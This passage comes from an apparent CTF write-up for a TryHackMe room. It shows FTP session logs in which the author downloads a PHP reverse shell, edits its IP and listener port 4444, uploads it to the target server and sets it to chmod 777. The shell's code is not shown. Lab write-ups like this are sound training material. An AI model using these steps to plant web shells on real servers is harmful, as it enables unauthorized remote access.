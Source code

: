 ```jsx
Passive mode: off; fallback to active mode: off.
ftp> passive
Passive mode: on; fallback to active mode: on.
```

Then we modify the `shell.php` file by downloading it on our local device

```jsx
ftp> mget *
mget index.html [anpqy?]? 
229 Entering Extended Passive Mode (|||47422|)
150 Opening BINARY mode data connection for index.html (10918 bytes).
100% |***********************************************************| 10918        5.85 MiB/s    00:00 ETA
226 Transfer complete.
10918 bytes received in 00:00 (58.78 KiB/s)

mget shell.php [anpqy?]? 229 Entering Extended Passive Mode (|||24765|)
150 Opening BINARY mode data connection for shell.php (5493 bytes).
100% |***********************************************************|  5493       50.37 MiB/s    00:00 ETA
226 Transfer complete.
5493 bytes received in 00:00 (29.28 KiB/s)
```

Then on the local device we edit the ip and port to match our tunnel ip and the port where we want to listen to, in my case `4444`

```jsx
┌──(namura㉿namu)-[~/thm/h4cked]
└─$ vim shell.php          
                                                                                                        
┌──(namura㉿namu)-[~/thm/h4cked]
└─$ ll
total 140
-rw-rw-r-- 1 namura namura 119788 Jun  8 17:06 Capture_1612220005488.pcapng
-rw-rw-r-- 1 namura namura  10918 Feb  2  2021 index.html
-rwxrwxrwx 1 namura namura   5494 Jun  9 15:56 shell.php

```

Then on the remote ftp server, we put the file from our local device, and we also chmod it to `777`

```jsx
ftp> put shell.php 
local: shell.php remote: shell.php
229 Entering Extended Passive Mode (|||51636|)
150 Ok to send data.
100% |***********************************************************|  5492       34.00 MiB/s    00:00 ETA
226 Transfer complete.
5492 bytes sent in 00:00 (14.53 KiB/s)
ftp> ls -la
229 Entering Extended Passive Mode (|||8000|)
150 Here comes the directory listing.
drwxr-xr-x    2 1000     1000         4096 Feb 01  2021 .
drwxr-xr-x    3 0        0            4096 Feb 01  2021 ..
-rw-r--r--    1 1000     1000        10918 Feb 01  2021 index.html
-rwxrwxrwx    1 1000     1000         5492 Jun 09 10:03 shell.php
226 Directory send OK.
ftp> chmod 777 shell.php
200 SITE CHMOD command ok.

```
